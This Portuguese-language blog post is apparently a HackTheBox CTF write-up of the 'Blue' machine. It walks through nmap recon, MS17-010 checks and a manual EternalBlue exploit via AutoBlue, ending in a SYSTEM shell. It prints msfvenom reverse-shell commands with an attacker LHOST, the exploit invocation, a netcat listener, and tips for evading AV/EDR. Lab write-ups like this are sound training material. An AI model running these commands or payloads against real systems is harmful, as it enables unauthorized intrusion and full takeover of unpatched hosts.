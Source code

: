 ```yaml
---
layout: post
title: "[CTF]-[HACKTHEBOX]-[EASY]- BLUE"
date: 2023-01-10
excerpt: "Machine: Support - [Root-me.org](https://www.hackthebox.com)"
tags: [ctf, htb, windows, eternal blue, manual exploit, exploit, python, venv]
---
```


# Intro

Eu sei, eu sei. Máquina Blue, famigerado shell de 3 minutos utilizando o metasploit, mas aqui vamos separar o joio do trigo utilizando um exploit manual e entender um pouco melhor o processo e impacto de uma vulnerabilidade tão crítica.

# Recon

Easy peasy, nmap de lei, enumerar as portas e nada de serviços web. Sabemos que é um host windows e smb ativo, é o primeiro passo para tentar um acesso inicial ou um acesso completo!

```nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-08 18:57 EST
Nmap scan report for 10.129.138.157
Host is up (0.077s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.88 seconds
```

Só smb + rpc, nenhuma outra entrada, Windows 7, nome da máquina é Blue. Já sabemos que vamos abusar da vulnerabilidade do Eternal Blue, então vamos tentar detectar se a máquina está vulneravel.

Pode-se utilizar o nmap para validar utilizando o script **/usr/share/nmap/scripts/smb-vuln-ms17-010.nse**, o próprio metasploit (**auxiliary/scanner/smb/smb_ms17_010**) ou o repositório do [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010) caso esteja se preparando pra uma exploração manual (DCPT/OSCP).

nmap:
```nmap_scan
└─# nmap -p 445 --script=smb-vuln-ms17* 10.129.138.157
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-12 13:58 EST
Nmap scan report for 10.129.138.157
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds

```

metasploit:
```metasploit
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.138.157:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.138.157:445    - Scanned 1 of 1 hosts (100% complete)
```

eternal_checker.py:
```eternal_chequer.py
└─# python3 eternal_checker.py 10.129.138.157                          
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Don
```

## Tá, mas e ae?
É isso? Fim de jogo? **yep**. 

Na **minha** perspectiva, aqui a real exploração do alvo só será feita após atutorização do cliente. Quem possui assets vulneraveis ao **EternalBlue** com certeza possui software legado, não utiliza comunicação TLS, há limitações de patchs para não quebrar o negócio e **COM CERTEZA** seu payload vai ocasionar uma **blue screen of death**. O asset final pode ser mesmo um servidor de arquivos, mas em casos reais pode ser também um equipamento critico de um hospital/fábrica, portanto o melhor comportamento como profissional é perguntar se pode-se prosseguir com a exploração ou só o fato se ser vulnerável já é o suficiente.

Nossa atividade é exatamente para identificar as falhas e posteriormente os times responsáveis corrigirem. Se existe a possibilidade se evitarmos um incidente crítico no ambiente, por que não perguntar e solicitar autorização? Eu que não quero estar em war room quando for pra acompanhar esse Disaster Recovery :)

Como é CTF, claro que estamos autorizados!

# Tá autorizado, desce a lenha.

Metasploit 3 minutos e blablabla, esquece isso e vamos explorar manualmente.

Como estamos lidando com um exploit que pode precisar de dependências, eu gosto de utilizar virtualização/containers para executar.  Cito como exemplo o Python + Impackt libs, as diferentes versões do Impackt **SEMPRE** vão causar conflito ou algum bug durante execução. No caso, vou utilizar um exploit em Python e o VENV para virtualizar o ambiente.  Estarei utilizando o exploit do [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010), mas há tantos outros no Github.

Preparando o ambiente VENV:
```VENV
python3 -m pip install virtualenv
mkdir blue && cd blue
python3 -m venv env && source env/bin/activate
python3 -m pip list
```

Nenhuma dependencia instalada (pip list), vamos utilizar o `python3 -m pip install -r requirements.txt` e pronto, podemos isoladamente utilizar o exploit sem ter conflito de dependências com as bibliotecas da máquina.

![Python VENV](/img_posts/ctf/htb/easy/blue/ctf-htb-blue-1.png)

Para preparar o payload, aqui há informações importantes.
- Se atentar a arquitetura do alvo, pode ser **x64** ou **x86**, importante ter isso em mente quando gerar o payload.
- Saber a diferença de um shellcode **stage** e **stageless**. Normalmente o stage vai ocasionar em bluescreen.
- Meterpreter? Não recomendo pois pode ser facilmente identificado por AV/EDR. Utilize como primeira opção o **reverse_tcp**, depois vá para as outras alternativas.
- Utilizei portas altas para a exploração, mas em cenários reais utilize portas comuns para ser **stealth** para a maioria dos controles de segurança, como 443/HTTPS, 8080/TOMCAT ou 9200/ELASTICSEARCH.

```shell_prep
┌──(env)─(root💀kali)-[/home/…/htb/blue/AutoBlue-MS17-010/shellcode]
└─# ./shell_prep.sh                                                                                           130 ⨯
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.10.14.118
LPORT you want x64 to listen on:
4444
LPORT you want x86 to listen on:
5555
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.118 LPORT=4444
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.118 LPORT=5555
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Sem segredo, abrir um listener com netcat na porta da arquitetura identificada na fase de recon e executar o exploit com: `python3 eternalblue_exploit7.py 10.129.138.157 shellcode/sc_x64.bin`
```
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 4444                                                                                               1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.118] from (UNKNOWN) [10.129.138.157] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Como temos uma shell com **NT/SYSTEM**, não é necessário escalar privilégios, só pegar as flags de user e root.

# Mitigação
- patch your shit!